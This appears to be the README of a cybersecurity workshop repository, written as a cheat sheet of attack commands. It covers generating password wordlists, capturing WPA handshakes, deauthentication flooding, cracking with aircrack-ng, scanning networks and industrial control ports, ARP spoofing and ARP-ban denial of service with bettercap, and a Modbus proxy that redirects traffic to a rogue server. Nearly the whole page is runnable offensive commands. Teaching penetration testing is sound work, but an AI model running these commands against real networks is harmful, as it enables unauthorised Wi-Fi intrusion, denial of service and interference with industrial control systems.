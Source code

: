 # udg-taller-ciberseguridad

## Creando diccionarios
### CEWL
```bash
cewl --min_word_length 4 --write ./passwords.txt --email -v <target>
```
### Wister
```bash
python3 -m venv venv
source venv/bin/active
pip install whister

wister -l #list types

wister -c 1 2 3 4 5 -w <w1> <w2> -o ./passwords_02.txt # merge words
wister -c 3 5 -i passwords.txt -o ./passwords_02.txt # merge file and low combinations
wister -c 1 2 3 4 5 -i passwords.txt -o ./passwords_02.txt # merge file
```


## Atacando redes wifi
```bash

sudo airmon-ng start wlp2s0 # monitor
iwconfig # wifi info

sudo airodump-ng wlp2s0mon ## Scan 2Ghz
sudo airodump-ng wlp2s0mon --essid=<ssid>  ## Scan 2Ghz and filter by regex 
sudo airodump-ng wlp2s0mon --essid-regex=<ssid> --band a ### Scan 5Ghz

## Monitor and capture a handshake
sudo airodump-ng wlp2s0mon -c <channel> --bssid <bssid> -w psk.pcap --output-format pcap 

## Send generic deauth packets, may not work in all scenarios
sudo aireplay-ng -0 0 -a <bssid> wlp2s0mon # broadcast
sudo aireplay-ng -0 0 -a <bssid> -c <client-mac> wlp2s0mon # to 1 client

## Cracking
aircrack-ng -w ./creds.txt --bssid=<bssid> ./psk.pcap-0*

sudo airmon-ng check kill ## stop

```

## Encontrando dispositivos en la red
```bash
netdiscover -i wlp2s0 -r 192.168.1.0/24
netdiscover -i wlp2s0 -p
sudo arp-scan -I wlp2s0 --localnet
```

## Explorando en la red
```bash
nmap -p 502,4840,80,443,8080,8443,1880 -T5 --open 192.168.1.0/24
nmap --script enip-info -sU -p 44818 <ip> # EtherNet/IP
```

## MITM
```bash
sudo bettercap -iface wlan0
sudo bettercap -iface wlan0 -caplet http-ui
```

| Orden | Descripción |
|-------|---------|
| net.show | Mostrar información sobre la red |
| net.probe on | Iniciar escaneo de host en la red |
| net.recon on | Leer periódicamente la tabla ARP del sistema para detectar nuevos hosts en la red. |
| set arp.spoof.targets 10.10.10.100,10.10.10.200 | Establecer un objetivo en la red | 
| set arp.spoof.internal true | Las conexiones locales entre ordenadores de la red también serán falsificadas, de lo contrario solo se falsificarán las conexiones que vayan hacia y desde la red externa. |
| arp.spoof on| Iniciar arp spoofing |
| arp.ban on | ARP spoofing en modo de prohibición, lo que significa que la conectividad del objetivo no funcionará. | 

### Modbus transparent proxy
set tcp.address 10.10.10.200
set tcp.port 502
set tcp.tunnel.address 127.0.0.1
set tcp.tunnel.port 502
tcp.proxy on

> Recodar, tienes que correr un proxy modbus en local para que funcione `modbus/rogue_server.py`